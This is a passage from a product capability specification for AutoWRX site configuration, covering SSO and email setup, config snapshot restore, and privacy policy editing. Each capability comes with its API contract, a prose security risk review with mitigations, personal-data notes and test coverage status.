Admins/DevOps (configure SSO + email); end users (SSO buttons).

### Acceptance criteria

- When an **admin** adds or edits an SSO provider at **Admin → SSO (`/admin/site-config`)**, the system saves it (with the secret encrypted) and the sign-in button appears for users; when they remove it, the button disappears.
- When an **admin** opens the SSO section at **Admin → SSO (`/admin/site-config`)**, the saved provider secret is decrypted only for admin display.
- When a **user** opens the Sign-in page (`/login`), they see only the enabled providers, never their secrets.
- When an **admin** configures email delivery (Resend/SMTP/none) and sends a test email at **Admin → Email (`/admin/site-config`)**, the system sends it and shows the result.

### API contract

- `GET /v2/site-config/sso/providers` (anonymous) → enabled providers without `clientSecret`.
- SSO/Email CRUD routes require authentication and `MANAGE_USERS`; `clientSecret` is decrypted only for admin display.
- `POST /v2/site-config/email/test` (auth + `MANAGE_USERS`) → sends a test email; requires `to` to be present (controller-level check); unthrottled.
- Provider objects and the `EMAIL_CONFIG` shape are not schema-validated server-side (`value` accepts any shape).
- `SSO_PROVIDERS[].clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass` are encrypted at rest (AES-256-CBC); `clientSecret` is removed before any public response.

### Quality control

As an admin, add an SSO provider and confirm the sign-in button appears; configure email (Resend/SMTP) and confirm a test send succeeds; remove the provider and confirm the button is hidden.

### Security

Secrets encrypted at rest; never in public reads; admin-only writes.

**Coverage:**
- **Auth:** required (admin) for SSO/Email CRUD and `POST /v2/site-config/email/test`; `GET /v2/site-config/sso/providers` is public (anonymous) and strips `clientSecret`.
- **Authorization:** `MANAGE_USERS` for admin writes/test-send; the public providers endpoint returns enabled providers only (no `clientSecret`).
- **Input validation:** provider objects and the `EMAIL_CONFIG` shape are not schema-validated server-side (`value` accepts any shape); `POST /email/test` requires `to` to be present.
- **Rate limiting:** not applied (test-send is unthrottled).
- **Secrets:** `SSO_PROVIDERS[].clientSecret` and `EMAIL_CONFIG.apiKey`/`smtpConfig.pass` are encrypted at rest (AES-256-CBC) and decrypted only for admin display in the SSO/Email sections; `clientSecret` is removed before any public response.

**Risks:**
- **SSO secret theft:** a compromised admin session decrypts `clientSecret` for display; a stolen secret lets an attacker impersonate the SP and intercept SSO logins. *Mitigation:* the system encrypts secret-flagged values at rest (AES-256-CBC); `clientSecret` is stripped from public responses; rotate secrets on suspected compromise and audit admin reads.
- **Email API key abuse:** a leaked `EMAIL_CONFIG` apiKey/smtp credentials let an attacker send mail as the platform (phishing from a trusted domain) or exhaust the mail quota. *Mitigation:* the system encrypts secret-flagged values at rest (AES-256-CBC); writes require `MANAGE_USERS`; rotate keys on suspected leak and throttle test-send.
- **Provider-list spoofing:** if the public providers endpoint returned config beyond the enabled flag, it could leak redirect URLs / client IDs useful for phishing. *Mitigation:* the public `/sso/providers` endpoint returns only the enabled flag + provider name (no `clientSecret`/redirect); keep the response shape minimal.

### Personal data processing
✅ Yes — `POST /v2/site-config/email/test` takes an admin-supplied `to` recipient email address, returned in the response message `Test email sent to <to>`. (SSO `clientSecret` and `EMAIL_CONFIG` `apiKey`/`smtpConfig.pass` are secrets/AutoWRX-operational, not personal data.)
The recipient address is collected from the admin caller, used only to address the test email, surfaced in the test-send response (and any mail logs), retained only in request logs (no persisted personal-data record), protected by TLS in transit, and accessible only to the admin who triggers the send.
**Risks:**
- **Recipient disclosure in logs:** test-send response/logs may include the recipient address, surfacing the admin's email (and any test recipients) in audit/log stores.

### AutoWRX data
Secrets (`clientSecret`/`apiKey`/`smtpConfig.pass`) encrypted; email logs may include recipient addresses.
**Coverage:**
- **Stored data:** `SSO_PROVIDERS` (array of provider objects incl. encrypted `clientSecret`) and `EMAIL_CONFIG` (object incl. encrypted `apiKey`/`smtpConfig.pass`) in `site_configs` (scope `site`, `secret: true`).
- **Retention:** indefinite — encrypted secrets persist until an admin rotates them; no TTL/expiry.
- **Encryption:** AES-256-CBC at rest for `clientSecret`, `apiKey`, `smtpConfig.pass`; already-encrypted values are not re-encrypted.
- **Logging:** the test-send response includes the recipient address; no secrets logged on the success path.
**Risks:**
- **Persistent credential reuse:** encrypted secrets persist until rotated; a past compromise leaves stolen credentials valid until an admin manually rotates them.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (no spec exercises SSO provider CRUD, `/sso/providers` public list, `EMAIL_CONFIG` setup, or `/email/test`)
- **Estimated coverage:** ≈0% (est.) — no E2E spec.
- **Unit (Jest):** none

## CAP-CONFIG-08 — Site config snapshots & restore

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Snapshots (`/admin/site-config`) | ❌ No | ✅ 2 cases, ≈80% (est.) |

### Description

As an admin/DevOps, I can restore the site config from a deployment snapshot merged with predefined defaults (snapshot wins per key) from the Public Config section's "Restore default" action, so I can recover the instance's configuration after a bad change or migration. As an admin, I can see per-key source (snapshot/predefined/mixed/none) in the restore result.

### Who uses it / value

Admins/DevOps (recover config after a bad change or migration).

### Acceptance criteria

- When an **admin** clicks "Restore default" in the Public Config section at **Admin → Snapshots (`/admin/site-config`)** and confirms, the system reverts the public configs to the deployment snapshot where present, otherwise to the predefined default, then reloads the page.
- When an **admin** cancels the restore confirmation at **Admin → Snapshots (`/admin/site-config`)**, no changes are made.
- When an **admin** restores at **Admin → Snapshots (`/admin/site-config`)**, they can see which keys came from the snapshot vs. predefined defaults (per-key source: snapshot/predefined/mixed/none).

### API contract

- `POST /v2/site-config/restore-snapshot` (auth + `MANAGE_USERS`) → `200` with the restored config and per-key source.
- Caller may send `keys?: string[]`, `categories?: string[]`, `secret?: boolean`; at least one filter is required (the system returns `400` on an empty filter).
- The snapshot is auto-synced when the deploy seeder runs; the snapshot preserves `secret`-flagged configs in their encrypted form and restore re-upserts encrypted values (no decryption during restore).
- Per-key source labels: `snapshot`/`predefined`/`mixed`/`none`; snapshot wins per key.

### Quality control

As an admin, change a config, then call `POST /v2/site-config/restore-snapshot` and confirm it reverts to the snapshot where present, otherwise to the predefined default.

### Security

Admin only.

**Coverage:**
- **Auth:** required — `POST /v2/site-config/restore-snapshot` is admin-only.
- **Authorization:** `MANAGE_USERS` — only admins may trigger restore; no re-authorization of prior-snapshot provenance.
- **Input validation:** caller may send `keys?: string[]`, `categories?: string[]`, `secret?: boolean`; at least one filter is required (the system returns `400` on an empty filter).
- **Rate limiting:** not applied.
- **Secrets:** the snapshot preserves `secret`-flagged configs in their encrypted form; restore re-upserts encrypted values (no decryption during restore); decrypted only on a subsequent admin read.

**Risks:**
- **Snapshot replay of weak config:** an attacker who reaches `restore-snapshot` could replay an older, less-secure snapshot (e.g. before SSO was hardened), reverting the instance to a vulnerable posture. *Mitigation:* writes require `MANAGE_USERS`; fails secure if config missing; none currently — log who restored which snapshot and consider snapshot provenance/audit trail.
- **Predefined-default downgrade:** if a key is missing from the snapshot, predefined defaults are applied; if predefined defaults ever contained a weak value historically, restore could re-introduce it. *Mitigation:* keep predefined defaults reviewed before each release; restore requires `MANAGE_USERS` and fails secure if config missing.

### Personal data processing
❌ No — this capability does not process personal data. (config values + admin user refs only.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Snapshots hold site-scope configs incl. encrypted secrets.
**Coverage:**
- **Stored data:** `SiteConfigSnapshot` collection — mirrors site-scope `site_configs` (`key`, `scope`, `value`, `valueType`, `secret`, `description`, `category`); auto-synced when the deploy seeder runs; a `SiteConfigSnapshotMeta` record tracks the last-synced seed run.
- **Retention:** only the latest snapshot is retained — sync replaces prior snapshots before reinserting; no TTL.
- **Encryption:** secrets stored encrypted in snapshots (same AES-256-CBC as live config; not re-encrypted during sync/restore).
- **Logging:** sync logs a count and timestamp only — no config values.
**Risks:**
- **Snapshot of secrets at rest:** snapshots include encrypted secrets; if encryption keys are rotated but old snapshots aren't re-encrypted, they become unreadable or, worse, decryptable with a leaked old key.
- **Recovery-time secret exposure:** during restore, decrypted secrets may flow into admin-visible output/logs, widening the window for capture.

### Test coverage
- **E2E (Playwright):** 2 test case(s) in `site-config-restore-default.spec.ts` — SITEMAP: ✅ (`Restore default` button in Public section calls `restoreConfigsFromSnapshot` → `POST /site-config/restore-snapshot`; revert + cancel flows covered)
- **Estimated coverage:** ≈80% (est.) — 2 E2E cases cover the restore-default button → `restore-snapshot` and revert/cancel flows; filter params (`keys`/`categories`/`secret`) and per-key source labeling untested.
- **Unit (Jest):** none

## CAP-CONFIG-09 — Privacy policy

| Actor | Where | Personal data | E2E coverage |
|---|---|---|---|
| admin | Admin → Privacy (`/admin/site-config`) | ❌ No | ❌ 0 cases, ≈0% (est.) |

### Description

As an admin, I can author the public Privacy Policy as markdown (or point to an external URL) with edit and preview from the Privacy Policy section, so end users see the legal terms that apply to the instance. As a user, I see the published privacy policy page.

### Who uses it / value

End users (legal info); admins (maintain policy).

### Acceptance criteria

- When an **admin** opens the Privacy Policy section at **Admin → Privacy (`/admin/site-config`)**, they can edit the policy markdown and switch to a Preview tab to see how it renders.
- When an **admin** saves the policy at **Admin → Privacy (`/admin/site-config`)**, the public Privacy Policy page updates.
- When an **admin** sets an external privacy policy URL at **Admin → Privacy (`/admin/site-config`)**, the public page can redirect there instead.
- When a **user** opens the Privacy policy page (`/privacy-policy`), the system renders the policy markdown without requiring sign-in.

### API contract

- The public `/privacy-policy` page renders anonymously; editing `PRIVACY_POLICY_CONTENT`/`PRIVACY_POLICY_URL` requires authentication and `MANAGE_USERS`.
- `PRIVACY_POLICY_CONTENT` (markdown string) and `PRIVACY_POLICY_URL` (string) in `site_configs` (scope `site`, `secret: false`); the markdown is not sanitized server-side (`value` accepts any shape); `PRIVACY_POLICY_URL` is not URL-validated server-side.
- Edit-history snapshots are stored in `SiteConfigSnapshot`.

### Quality control

As an admin, edit the policy and confirm the public page updates; set `PRIVACY_POLICY_URL` and confirm it redirects.

### Security

Page public; editor admin.

**Coverage:**
- **Auth:** the `/privacy-policy` page renders anonymously; editing `PRIVACY_POLICY_CONTENT`/`PRIVACY_POLICY_URL` requires authentication and `MANAGE_USERS`.
- **Authorization:** `MANAGE_USERS` for editing; public page read has no permission check.
- **Input validation:** the markdown is not sanitized server-side (`value` accepts any shape); `PRIVACY_POLICY_URL` is not URL-validated server-side.
- **Rate limiting:** not applied.
- **Secrets:** none — policy markdown/URL are non-secret public content.

**Risks:**
- **Markdown XSS:** if `PRIVACY_POLICY_CONTENT` markdown is rendered without sanitization, an admin (or compromised admin) could inject scripts into a page visited by every user for legal/trust reasons. *Mitigation:* none currently — sanitize admin-supplied CSS/markdown (`PRIVACY_POLICY_CONTENT`) before render.
- **Redirect abuse via `PRIVACY_POLICY_URL`:** if `PRIVACY_POLICY_URL` can be set to an external URL, an attacker with admin access could redirect the privacy policy to a phishing page, undermining legal trust. *Mitigation:* none currently — validate `PRIVACY_POLICY_URL` against a protocol/hostname allowlist server-side (https only).

### Personal data processing
❌ No — this capability does not process personal data. (legal text only; privacy policy content is not personal data; no user data stored.)
N/A
**Risks:**
- none — no personal data processed.

### AutoWRX data
Policy markdown only.
**Coverage:**
- **Stored data:** `PRIVACY_POLICY_CONTENT` (markdown string) and `PRIVACY_POLICY_URL` (string) in `site_configs` (scope `site`, `secret: false`); edit-history snapshots in `SiteConfigSnapshot`.
- **Retention:** indefinite — public config values persist until edited/restored.
- **Encryption:** none — plaintext public config (non-secret).
- **Logging:** none / N/A — no logging of policy content.
**Risks:**
- **Legal-text tampering:** unauthorized edits to the published policy could change stated data-handling commitments, creating legal exposure and misleading users about what their data is used for.

### Test coverage
- **E2E (Playwright):** 0 — not covered — SITEMAP: ❌ (no spec exercises the `/privacy-policy` page render, `PrivacyPolicySection` editor, preview, or history)
- **Estimated coverage:** ≈0% (est.) — no E2E spec.
- **Unit (Jest):** none